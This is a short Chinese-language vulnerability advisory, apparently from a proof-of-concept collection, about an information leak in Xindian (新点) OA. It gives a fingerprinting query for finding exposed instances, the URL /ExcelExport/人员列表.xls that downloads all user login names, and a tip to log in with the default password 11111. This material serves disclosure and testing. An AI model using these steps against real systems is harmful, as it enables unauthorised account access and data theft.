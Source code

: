 # 新点OA ExcelExport 敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

<a-checkbox checked>新点OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="新点OA"</a-checkbox></br>

## 漏洞复现

构造的Url为, 将会下载人员列表文件

```plain
/ExcelExport/人员列表.xls
```



![img](../../../.vuepress/public/img/xd-1.png)



通过获取的登录名登陆后台(默认密码11111)